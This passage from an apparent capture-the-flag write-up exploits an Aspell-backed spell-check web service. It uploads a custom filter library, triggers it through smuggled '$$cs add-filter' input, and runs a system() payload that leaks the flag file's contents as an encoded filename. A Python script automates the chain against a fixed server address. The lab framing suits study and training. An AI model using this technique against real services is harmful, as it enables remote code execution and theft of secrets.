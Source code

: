### Testing against local Aspell

Copy the resulting files **blub.amf**, **blub-filter.info** and **blub-filter.so** to `/home/challenge/challenge/dicts/`.

Invoke aspell again, enter

```txt
$$cs add-filter-path,.
$$cs add-filter,blub
+blub
```

Did **system()** execute and create the file **blub_was_here** in **/tmp**?

```console
$ ls -l /tmp                                           
total 56
-rw-r--r-- 1 kali kali    0 Jul 15 19:33 blub_was_here
```

Yay! Now we are on the finishing line!

### Final Payload for Custom Filter

One nice way to gain access to the target machine would be to open a reverse shell to a machine we have control over (e.g. running a netcat listener).

Lacking such a server with a public IPv4 address, we may as well try to leak the flag into the dicts subdirectory and read it from there via endpoint **/dicts** listing.

Rebuilding the [custom filter](./aspell-source-changes/modules/filter/blub.cpp) with the payload and recompiling it will yield the final exploit.

```cpp
system("/usr/bin/touch /home/challenge/challenge/dicts/`/usr/bin/cat /home/challenge/challenge/flag.txt | /usr/bin/base64 | /usr/bin/rev`");\
```

### Python Implementation

Now we just glue all the puzzle pieces together with a nice python script to automate uploading the custom filter files, activating it via spell checking and grabbing the flag from the dicts directory.

```python
TO_UPLOAD = ["blub.amf", "blub-filter.info", "blub-filter.so"]
HEADERS = {"Content-Type": "application/x-www-form-urlencoded"}
SERVER = "http://116.202.161.100:5000"

for file in TO_UPLOAD:
  requests.get('http://116.202.161.100:5000/dicts/update', files={'dict': (file, open("aspell-attack-filter/" + file, 'rb'))})

requests.post(SERVER + "/spellcheck", data='text=$$cs+add-filter-path,/home/challenge/challenge/dicts/%0a$$cs+add-filter,blub%0a%2bblub', headers=HEADERS)

resp = requests.get(SERVER + "/dicts")
dicts_json = json.loads(resp.text)
encoded_flag = dicts_json["dicts"][-1][::-1] # [-1] -> last file, [::-1] -> reverse characters
flag = b64decode(encoded_flag).decode().strip()
```
